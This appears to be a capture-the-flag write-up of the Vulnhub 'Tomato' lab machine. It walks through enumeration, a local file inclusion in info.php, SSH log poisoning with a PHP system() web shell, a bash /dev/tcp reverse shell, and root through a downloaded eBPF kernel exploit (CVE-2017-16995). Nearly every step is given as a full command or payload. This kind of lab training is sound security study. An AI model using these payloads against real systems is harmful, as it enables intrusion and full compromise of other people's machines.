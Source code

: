 ```yaml
---
title: Vulnhub - Tomato
description: My writeup on Tomato box.
categories:
 - vulnhub
tags: vulnhub LFI logpoisoning kernel
---
```


![](https://www.hdwallpaper.nu/wp-content/uploads/2017/03/tomato-3.jpg)

You can find the machine there > [Tomato](https://www.vulnhub.com/entry/tomato-1,557/){:target="_blank"}

## Summary

This one was a pretty good one, a bit "advanced". We start by finding an LFI on `info.php` page this drive us to a ssh log poisoning attack. After gaining a low-privilege shell we can privesc to root by exploiting an old kernel version. Let's pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.16
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-19 13:32 EEST
Nmap scan report for ubuntu.zte.com.cn (192.168.1.16)
Host is up (0.00012s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
2211/tcp open  emwin
8888/tcp open  sun-answerbook
MAC Address: 00:0C:29:04:21:BA (VMware)

Nmap done: 1 IP address (1 host up) scanned in 2.25 seconds
$ nmap -p 21,80,2211,8888 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-19 13:32 EEST
Nmap scan report for ubuntu.zte.com.cn (192.168.1.16)
Host is up (0.00039s latency).

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Tomato
2211/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d2:53:0a:91:8c:f1:a6:10:11:0d:9e:0f:22:f8:49:8e (RSA)
|   256 b3:12:60:32:48:28:eb:ac:80:de:17:d7:96:77:6e:2f (ECDSA)
|_  256 36:6f:52:ad:fe:f7:92:3e:a2:51:0f:73:06:8d:80:13 (ED25519)
8888/tcp open  http    nginx 1.10.3 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Private Property
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: 401 Authorization Required
```

Lot of stuff to enumerate, let's focus on port 80 first. I tried to run gobuster on it but nothing:

```
$ gobuster dir -q -u http://$ip/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html
/index.html (Status: 200)
/server-status (Status: 403)
```

Then i had the idea to run dirb on it and it worked, an interesting directory showed up.

```
$ dirb http://$ip/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sat Sep 19 13:38:33 2020
URL_BASE: http://192.168.1.16/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.1.16/ ----
==> DIRECTORY: http://192.168.1.16/antibot_image/         
```

Has lot of stuff in, but only `info.php` is useful.

![](https://i.imgur.com/VXTvdXH.png)

A good practise is always to check the source code of a page, even if it is a php one you never know. `info.php` has a really interesting comment!

```html
<!-- </?php include $_GET['image']; -->
```

`include == LFI` Since the super global variable `$_GET` has the `image` in the payload will go like that:

```
$ curl http://192.168.1.16/antibot_image/antibots/info.php\?image\=../../../../../../../../../etc/passwd             

.. data ..

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
tomato:x:1000:1000:Tomato,,,:/home/tomato:/bin/bash
sshd:x:108:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:109:117:ftp daemon,,,:/srv/ftp:/bin/false
```

## Shell as www-data

I enumerated a lot, but nothing. One thing left, that is log poisoning but we need to be able to read log files. And we can do SSH log poisoning because we can read the `/var/log/auth.log`!

First we have to login with a php code as username:

```
$ ssh '<?php system($_GET["cmd"]);?>'@$ip -p 2211
<?php system($_GET["cmd"]);?>@192.168.1.16's password: 
```

Now we have command execution:

```
http://192.168.1.16/antibot_image/antibots/info.php?image=../../../../../../../../../var/log/auth.log&cmd=id
```

In the end we can see this:

```
invalid user uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Let's simply now URL encode our reverse shell and send it. You can use this awesome tool to URL encode/decode from terminal:

```
sudo apt-get install gridsite-clients
```

```
$ urlencode "bash -c 'bash -i >& /dev/tcp/192.168.1.14/5555 0>&1'"
bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.14%2F5555%200%3E%261%27
```

```
http://192.168.1.16/antibot_image/antibots/info.php?image=../../../../../../../../../var/log/auth.log&cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.14%2F5555%200%3E%261%27
```

We have shell!

```
$ nc -lvp 5555
listening on [any] 5555 ...
www-data@ubuntu:/var/www/html/antibot_image/antibots$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/html/antibot_image/antibots$ 
```

## Shell as root

I noticed that kernel is pretty old:

```
www-data@ubuntu:/$ uname -a
Linux ubuntu 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
```

Let's fire up [linux exploit suggester](https://github.com/mzet-/linux-exploit-suggester){:target="_blank"} :fire:

```
www-data@ubuntu:/tmp$ wget -q https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
www-data@ubuntu:/tmp$ bash linux-exploit-suggester.sh

..data..

[+] [CVE-2017-16995] eBPF_verifier

   Details: https://ricklarabee.blogspot.com/2018/07/ebpf-and-analysis-of-get-rekt-linux.html
   Exposure: highly probable
   Tags: debian=9.0{kernel:4.9.0-3-amd64},fedora=25|26|27,ubuntu=14.04{kernel:4.4.0-89-generic},[ ubuntu=(16.04|17.04) ]{kernel:4.(8|10).0-(19|28|45)-generic}
   Download URL: https://www.exploit-db.com/download/45010
   Comments: CONFIG_BPF_SYSCALL needs to be set && kernel.unprivileged_bpf_disabled != 1
```

This one seems good, but system haven't `gcc` installed so let's download and compile it on our box and then transfer it.

```
$ wget -q https://www.exploit-db.com/download/45010 -O root.c
$ gcc root.c -o root
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```
www-data@ubuntu:/tmp$ wget -q http://192.168.1.14/root                                                                                
www-data@ubuntu:/tmp$ chmod +x root
www-data@ubuntu:/tmp$ ./root
[.] 
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.] 
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.] 
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff8800356b2200
[*] Leaking sock struct from ffff88003b71a580
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff8800325b92c0
[*] UID from cred structure: 33, matches the current: 33
[*] hammering cred structure at ffff8800325b92c0
[*] credentials patched, launching shell...
# whoami;id
root
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

Let's read the flag.

```
# cat proof.txt
Sun_CSR_TEAM_TOMATO_JS_0232xx23
```

What an awesome box!!! :smile:

